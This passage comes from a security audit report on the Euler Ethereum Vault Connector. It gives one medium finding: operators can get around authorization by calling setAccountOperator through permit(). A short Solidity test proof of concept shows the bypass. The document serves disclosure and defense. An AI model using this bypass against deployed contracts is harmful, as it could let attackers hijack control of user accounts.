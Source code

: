 Findings are broken down into sections by their respective impact:
 - Critical, High, Medium, Low impact
     - These are findings that range from attacks that may cause loss of funds, impact control/ownership of the contracts, or cause any unintended consequences/actions that are outside the scope of the requirements.
 - Gas savings
     - Findings that can improve the gas efficiency of the contracts.
 - Informational
     - Findings including recommendations and best practices.

---

## Critical Findings

None.

## High Findings

None.

## Medium Findings

### 1. Medium - Operators can enable and disable other operators

Operators cannot directly authorize other operators. This is the intended behavior. An operator can circumvent this protection by using the [`permit()`](https://github.com/euler-xyz/ethereum-vault-connector/blob/962722a69a275c424adaa89e595ca60107376b68/src/EthereumVaultConnector.sol#L447) function to call the [`setAccountOperator()`](https://github.com/euler-xyz/ethereum-vault-connector/blob/962722a69a275c424adaa89e595ca60107376b68/src/EthereumVaultConnector.sol#L304C3-L304C4) function.

#### Technical Details

The following proof of concept was included at the end of `test_SetOperator_Permit()` test.

```solidity
        //Reset otherOperator to remove permissions
        vm.prank(alice);
        evc.setAccountOperator(alice, otherOperator, false);

        //Operator adds permissions for otherOperator
        data = abi.encodeWithSelector(IEVC.setAccountOperator.selector, alice, otherOperator, true);
        signature = signerECDSA.signPermit(operator, 0, 2, block.timestamp, 0, data);
        evc.permit(operator, 0, 2, block.timestamp, 0, data, signature);
        vm.expectRevert(Errors.EVC_NotAuthorized.selector);
        //Remove the line above and include the line below to pass test on successful attack
        //assertEq(evc.isAccountOperatorAuthorized(alice, otherOperator), true);

        //Operator removes permissions for otherOperator
        data = abi.encodeWithSelector(IEVC.setAccountOperator.selector, bob, otherOperator, false);
        signature = signerECDSA.signPermit(operator, 0, 3, block.timestamp, 0, data);
        evc.permit(operator, 0, 3, block.timestamp, 0, data, signature);
        vm.expectRevert(Errors.EVC_NotAuthorized.selector);
        //Remove the line above and include the line below to pass test on successful attack
        //assertEq(evc.isAccountOperatorAuthorized(bob, otherOperator), false);
```
